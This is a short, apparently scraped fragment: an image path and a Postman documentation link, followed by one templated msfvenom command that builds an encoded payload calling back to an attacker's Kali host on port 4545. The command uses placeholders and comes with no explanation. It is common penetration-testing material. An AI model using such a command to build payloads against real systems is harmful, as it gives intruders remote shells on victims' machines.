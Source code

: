 https://documenter.getpostman.com/view/20411215/UzXNUd1S
msfvenom -p payload -a architecture --platform platform LHOST=Kali's_IP LPORT=4545 -e encoder_used -i count_of_encoding -f file_type -o output_path 